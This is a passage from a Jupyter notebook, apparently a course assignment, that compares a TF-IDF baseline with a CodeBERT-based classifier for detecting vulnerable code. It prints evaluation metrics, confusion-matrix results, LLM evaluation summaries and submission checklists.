train_npy, test_npy = "X_tr_improved.npy", "X_te_improved.npy"

if os.path.exists(train_npy) and os.path.exists(test_npy):
    X_tr_improved = np.load(train_npy)
    X_te_improved = np.load(test_npy)
    print("Loaded cached embeddings:", X_tr_improved.shape, X_te_improved.shape)
elif cb_ready:
    print("Building train feature matrix...")
    X_tr_improved = build_feature_matrix(X_tr)
    print("Building test feature matrix...")
    X_te_improved = build_feature_matrix(X_te)
    np.save(train_npy, X_tr_improved)
    np.save(test_npy, X_te_improved)
    print("Saved", train_npy, test_npy)
else:
    print("Skipping embedding build (CodeBERT not available).")

if X_tr_improved is not None:
    from sklearn.pipeline import Pipeline
    from sklearn.preprocessing import StandardScaler
    from sklearn.linear_model import LogisticRegression

    improved_clf = Pipeline([
        ("scaler", StandardScaler()),
        ("clf", LogisticRegression(
            C=1.0,
            class_weight="balanced",
            max_iter=1000,
            random_state=42,
        )),
    ])
    improved_clf.fit(X_tr_improved, yb_tr)
    y_pred_improved = improved_clf.predict(X_te_improved)
    improved_metrics = evaluate_model(
        yb_te, y_pred_improved, "Improved (CodeBERT + features)",
        label_names=["safe", "vulnerable"],
    )


config.json:   0%|          | 0.00/498 [00:00<?, ?B/s]

tokenizer_config.json:   0%|          | 0.00/25.0 [00:00<?, ?B/s]

vocab.json: 0.00B [00:00, ?B/s]

merges.txt: 0.00B [00:00, ?B/s]

special_tokens_map.json:   0%|          | 0.00/150 [00:00<?, ?B/s]

...

CodeBERT embeddings:   0%|          | 0/234 [00:00<?, ?it/s]

model.safetensors:   0%|          | 0.00/499M [00:00<?, ?B/s]

Building test feature matrix...


CodeBERT embeddings:   0%|          | 0/59 [00:00<?, ?it/s]

Saved X_tr_improved.npy X_te_improved.npy

=== Improved (CodeBERT + features) ===
              precision    recall  f1-score   support

        safe       1.00      1.00      1.00        22
  vulnerable       1.00      1.00      1.00        37

    accuracy                           1.00        59
   macro avg       1.00      1.00      1.00        59
weighted avg       1.00      1.00      1.00        59





                                accuracy  precision  recall      f1  Δ F1 vs baseline
model                                                                                
Baseline (TF-IDF + LR)            0.9661     0.9661  0.9661  0.9661            0.0000
Improved (CodeBERT + features)    1.0000     1.0000  1.0000  1.0000            0.0339




VERIFICATION CHECKLIST
1. Embedding shape (778 cols): True
2. .npy cache files: True True
3. Improved F1 > baseline: True
4. confusion_comparison.png: True
5. f1_by_vuln_type.png: True
6. StandardScaler in pipeline: True


In [23]:
# Side-by-side confusion matrices, comparison table, F1 by vulnerability type
import os

if y_pred_improved is not None:
    fig, axes = plt.subplots(1, 2, figsize=(12, 5))
    plot_confusion_matrix(yb_te, y_pred_baseline, "Baseline (TF-IDF + LR)", [0, 1], axes[0])
    plot_confusion_matrix(yb_te, y_pred_improved, "Improved (CodeBERT + features)", [0, 1], axes[1])
    plt.suptitle("Confusion Matrix Comparison", fontsize=13, y=1.02)
    plt.tight_layout()
    plt.savefig("confusion_comparison.png", dpi=150, bbox_inches="tight")
    plt.show()

    all_results = [baseline_metrics, improved_metrics]
    comparison_df = pd.DataFrame(all_results).set_index("model").round(4)
    comparison_df["Δ F1 vs baseline"] = comparison_df["f1"] - comparison_df.iloc[0]["f1"]
    print(comparison_df.to_string())

    from sklearn.metrics import f1_score

    def f1_by_vuln_type(y_true_multi, y_pred_bin, le, model_name):
        results = {}
        for cls in le.classes_:
            if cls == "none":
                continue
            cls_idx = le.transform([cls])[0]
            y_true_cls = (y_true_multi == cls_idx).astype(int)
            results[cls] = f1_score(y_true_cls, y_pred_bin, zero_division=0)
        return pd.Series(results, name=model_name)

    f1_base = f1_by_vuln_type(ym_te, y_pred_baseline, le, "Baseline")
    f1_impr = f1_by_vuln_type(ym_te, y_pred_improved, le, "Improved")
    f1_vuln = pd.concat([f1_base, f1_impr], axis=1)
    ax = f1_vuln.plot(kind="bar", figsize=(9, 4), color=["#888780", "#534AB7"], edgecolor="none")
    plt.title("F1 score by vulnerability type")
    plt.ylabel("F1")
    plt.xlabel("")
    plt.xticks(rotation=30)
    plt.legend()
    plt.tight_layout()
    plt.savefig("f1_by_vuln_type.png", dpi=150, bbox_inches="tight")
    plt.show()

    print("=" * 60)
    print("VERIFICATION CHECKLIST")
    print("=" * 60)
    print("1. Embedding shape (778 cols):", X_tr_improved.shape[1] == 778)
    print("2. .npy cache files:", os.path.exists("X_tr_improved.npy"), os.path.exists("X_te_improved.npy"))
    print("3. Improved F1 > baseline:", improved_metrics["f1"] > baseline_metrics["f1"])
    print("4. confusion_comparison.png:", os.path.exists("confusion_comparison.png"))
    print("5. f1_by_vuln_type.png:", os.path.exists("f1_by_vuln_type.png"))
    print("6. StandardScaler in pipeline:", "scaler" in improved_clf.named_steps)
    print("=" * 60)
else:
    comparison_df = pd.DataFrame([baseline_metrics]).set_index("model").round(4)
    print("Improved model unavailable — baseline-only comparison_df:")
    print(comparison_df.to_string())


## 4. Conclusion

Final interpretation, Task 1 / Task 2 summaries, and submission checklist. 

In [ ]:
# confusion interpretation, summaries, submission checks
import os

if y_pred_improved is not None:
    cm = confusion_matrix(yb_te, y_pred_improved)
    tn, fp, fn, tp = cm.ravel()
    print(f"True Positives  (correctly caught vulns): {tp}")
    print(f"True Negatives  (correctly cleared safe):  {tn}")
    print(f"False Positives (false alarms):             {fp}")
    print(f"False Negatives (missed vulns — critical):  {fn}")
    denom = fn + tp
    if denom:
        print(f"\nMiss rate (FN / total vulns): {fn / denom:.1%}")
else:
    print("Skip confusion interpretation (no improved predictions).")

# Task 1 — LLM summary (needs llm_metrics)
print("\n--- Task 1 — LLM Summary ---")
if llm_metrics is not None:
    summary = pd.DataFrame({
        "Metric": ["JSON Valid %", "Binary Accuracy %", "F1 (weighted)", "Precision", "Recall"],
        "LLM Baseline": [
            f"{llm_metrics.loc['Baseline','JSON Valid %']}%",
            f"{llm_metrics.loc['Baseline','Binary Accuracy %']}%",
            llm_metrics.loc["Baseline", "F1 (weighted)"],
            llm_metrics.loc["Baseline", "Precision"],
            llm_metrics.loc["Baseline", "Recall"],
        ],
        "LLM Improved": [
            f"{llm_metrics.loc['Improved','JSON Valid %']}%",
            f"{llm_metrics.loc['Improved','Binary Accuracy %']}%",
            llm_metrics.loc["Improved", "F1 (weighted)"],
            llm_metrics.loc["Improved", "Precision"],
            llm_metrics.loc["Improved", "Recall"],
        ],
    })
    print(summary.to_string(index=False))
else:
    print("llm_metrics not available — run LLM eval cell after setting API key.")

# Task 2 — ML summary
print("\n--- Task 2 — ML Summary ---")
ml_summary = comparison_df[["accuracy", "precision", "recall", "f1"]].copy()
ml_summary.columns = ["Accuracy", "Precision", "Recall", "F1"]
print(ml_summary.to_string())

# Submission verification (plan §7.6)
checks = {
    "Dataset file exists": os.path.exists("vuln_dataset.json"),
    "LLM results file exists": os.path.exists("llm_eval_results.json"),
    "Embeddings cached (train)": os.path.exists("X_tr_improved.npy"),
    "Embeddings cached (test)": os.path.exists("X_te_improved.npy"),
    "Confusion matrix image": os.path.exists("confusion_comparison.png"),
    "F1 by vuln type image": os.path.exists("f1_by_vuln_type.png"),
}

print("\n--- Submission file checks ---")
for check, status in checks.items():
    icon = "✅" if status else "❌"
    print(f"{icon} {check}")

if os.path.exists("llm_eval_results.json"):
    llm_df = pd.read_json("llm_eval_results.json")
    req = {"baseline_valid_json", "improved_valid_json", "baseline_vuln_type", "improved_vuln_type"}
    missing = req - set(llm_df.columns)
    print(f"\n{'✅' if not missing else '❌'} LLM results columns: {'' if not missing else 'MISSING: ' + str(missing)}")
else:
    print("\n❌ LLM results columns: file missing")

print("\n" + "=" * 60)
print("MASTER CHECKLIST")
print("=" * 60)
print("- Restart-and-run-all: verify manually")
print("- Notebook cell count target > 40: verify manually")
print("- Miss rate < 25%: check confusion interpretation above when improved model ran")
print("=" * 60)


True Positives  (correctly caught vulns): 37
True Negatives  (correctly cleared safe):  22
False Positives (false alarms):             0
False Negatives (missed vulns — critical):  0

Miss rate (FN / total vulns): 0.0%

--- Task 1 — LLM Summary ---
           Metric LLM Baseline LLM Improved
     JSON Valid %       100.0%        98.0%
Binary Accuracy %        68.0%        96.0%
    F1 (weighted)         0.55        0.959
        Precision        0.462        0.962
           Recall         0.68         0.96

--- Task 2 — ML Summary ---
                                Accuracy  Precision  Recall      F1
model                                                              
Baseline (TF-IDF + LR)            0.9661     0.9661  0.9661  0.9661
Improved (CodeBERT + features)    1.0000     1.0000  1.0000  1.0000

--- Submission file checks ---
✅ Dataset file exists
✅ LLM results file exists
✅ Embeddings cached (train)
✅ Embeddings cached (test)
✅ Confusion matrix image
✅ F1 by vuln type image

✅